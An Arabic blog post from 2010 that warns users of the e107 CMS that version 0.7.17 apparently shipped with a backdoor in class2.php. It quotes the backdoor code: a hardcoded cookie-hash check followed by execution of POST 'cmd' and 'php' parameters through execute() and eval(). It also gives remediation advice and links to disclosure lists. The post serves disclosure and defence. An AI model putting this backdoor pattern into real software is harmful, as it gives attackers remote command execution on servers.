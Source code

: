 ```yaml
---
author: يوغرطة بن علي (Youghourta Benali)
date: 2010-01-27 12:37:13+00:00
draft: false
title: اكتشاف Backdoor في آخر إصدار من نظام إدارة المحتوى e107
type: post
url: /2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/
categories:
- Open source
- Security
- Web
tags:
- backdoor
- cms
- e107
---
```


[**اكتشاف Backdoor في آخر إصدار من نظام إدارة المحتوى e107**](http://www.it-scoop.com/2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/)




إذا كنت من هواة أنظمة إدارة المحتوى أو ما يعرف اختصارا بـ CMS و كنت أحد مستعملي نظام e107 فإنه يستحسن أن تتحقق من آخر إصدار من نظام e107 حيث أن تحاليل أثبتت احتواءه على Backdoor.




[](http://www.it-scoop.com/2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/)




حيث نصح Bogdan Calin العامل لدى Acunetix بتجنب استعمال  الإصدار 0.7.17 التي صدرت حديثا لأنها تحوي الشيفرة التالية:





<blockquote>

> 
> 

> 
> if(md5($_COOKIE['access-يوغرطة بن علي (Youghourta Benali)']) == "cf1afec15669cb96f09befb7d70f8bcb") {
> 
> 

> 
> ...
> 
> 

> 
> if(!empty($_POST['cmd'])){
$out = execute($_POST['cmd']);
}
> 
> 

> 
> elseif(!empty($_POST['php'])){
ob_start();
eval($_POST['php']);
$out = ob_get_contents();
ob_end_clean();
}
> 
> 
</blockquote>




في الملف _class2.php_ .




و هو ما يعني استعمال لـ Cookie ثابت يسهل عملية اختراق النظام و الحصول على صلاحيات المدير.




من المرجح أن سبب وجود الـ Backdoor هو تعرض أحد الخوادم التي يُحمَّل منها النظام إلى تغيير في المحتوى.




إذا كنت تستعمل هذا النظام و كنت قد نصبت هذا الإصدار، كل ما عليك هو حذف الشيفرة المبنية أعلاه من الملف المصاب، أو إعادة تحميل النظام من جديد و الذي تم تصحيح الخلل فيه.




يمكن الإطلاع على تفاصيل الثغرة من [هنا](http://lists.grok.org.uk/pipermail/full-disclosure/2010-January/072688.html) و [هنا](http://seclists.org/bugtraq/2010/Jan/217)




-   هل تستعمل أنظمة إدارة المحتوى بصفة عامة و نظام e107 خاصة ؟




-   هل أنت من مؤيدي أنظمة أدارة المحتوى؟ أم تفضل كتابة جميع صفحات موقعك من الصفر؟
